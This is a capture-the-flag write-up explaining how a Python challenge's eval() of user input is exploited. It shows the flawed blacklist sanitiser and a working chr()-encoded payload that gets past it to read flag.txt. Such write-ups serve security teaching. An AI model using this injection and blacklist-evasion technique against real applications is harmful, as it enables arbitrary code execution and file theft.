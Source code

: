 # [PWN] Python Challenge
## Description
Pwn too hard, python too easy, sounds like it'll make a good challenge

Python vibe-coding ftw

Author: Elma

nc challs.nusgreyhats.org 34508

## The Program
When we run the program, we are greeted with the following output:

![Program Output](./images/program_output.png)

We are given an opponent, and we are required to supply a mathematical expression that yields a number greater than or equal to the opponent's health, or the opponent will deal damage to our character. We can literally supply the opponent's health as the input and still succeed.

Upon defeating all the opponents, we get a trophy.

## Code Analysis
Let us take a look at the following code segments:

```python
expr = input("Fire math expression (or 'quit'): ")

if expr.lower() == 'quit':
    return

# Sanitize and evaluate
clean_expr = sanitize_input(expr)
if clean_expr is None:
    print("❌ Invalid expression! Only use numbers and +, -, *, /, ()")
    continue

try:
    # Use eval on sanitized input
    damage = eval(clean_expr)

    if not isinstance(damage, (int, float)) or damage < 0:
        print("❌ Result must be a positive number!")
        continue
```

Our user input is passed into a `sanitize_input()` function, and if it passes sanitisation, it is executed within an `eval()` function. The `eval()` function in Python allows us to evaluate Python expressions, hence we have arbitrary code execution.

```python
def sanitize_input(expr):
    """Simple sanitization for math expressions"""
    # Remove whitespace
    expr = expr.strip().replace(" ", "")

    # no alphabets allowed
    disallowed = re.match(r'^[a-zA-Z]+$', expr)
    if disallowed:
        return None

    # Check for dangerous patterns
    dangerous = ['__', 'import', 'exec', 'open']
    if any(bad in expr.lower() for bad in dangerous):
        return None

    return expr
```

The `sanitize_input()` function removes whitespace, and attempts to block alphabets. However, `re.match()` is used here, which only checks the beginning of a string:

![re.match](./images/python_re_match.png)

Notice that even a mere bracket `(` can defeat the pattern matching.

The `sanitize_input()` function also includes a list of blacklisted words:
- `__`
- `import`
- `exec`
- `open`

## Exploitation
I did this challenge with the assumption that there is a `flag.txt` file in the same directory where the program is running from. Knowing that our user input is passed into the `eval()` function, I knew that I was going to have to somehow invoke `open('flag.txt').read()`. However, we have just seen that `open` is a blacklisted word.

In order to bypass this blacklist, we can represent each character with their unicode equivalent. For example, `chr(65)` gives us the character `A`. All we need to do now is to convert each character in `open('flag.txt').read()` into the `chr(int)` form, and concatenate all of them together. This will give us 

```
chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)
```

Now, we can just stick the entire thing into another `eval()` to execute `open('flag.txt').read()`.

![Testing chr() Chain](./images/testing_chr_chain.png)

However, we need to remember the constraints of our input. Since our input string begins with `eval`, which contains alphabets, we should wrap the entire thing into parentheses:

```
(eval(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)))
```

Doing so will allow us to bypass the Regular Expression validation, but we will fail another condition where our evaluated expression has to be a number:

![Input is not a number](./images/failed_nums_check.png)

To get around this, we can wrap the entire payload into `(print(<PAYLOAD>), 1)` to form our final payload:

```
(print(eval(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))),1)
```

The final `,1` makes the whole expression return 1 to satisfy the program's damage calculation requirement.

![Flag](./images/flag_revealed.png)

**Flag:**

```
grey{Darkness blacker than black and darker than dark, I beseech thee, combine with my deep crimson. The time of awakening cometh. Justice, fallen upon the infallible boundary, appear now as an intangible distortions! I desire for my torrent of power a destructive force: a destructive force without equal! Return all creation to cinders,and come frome the abyss! Explosion!}
```

![Megumin](./images/megumin.gif)
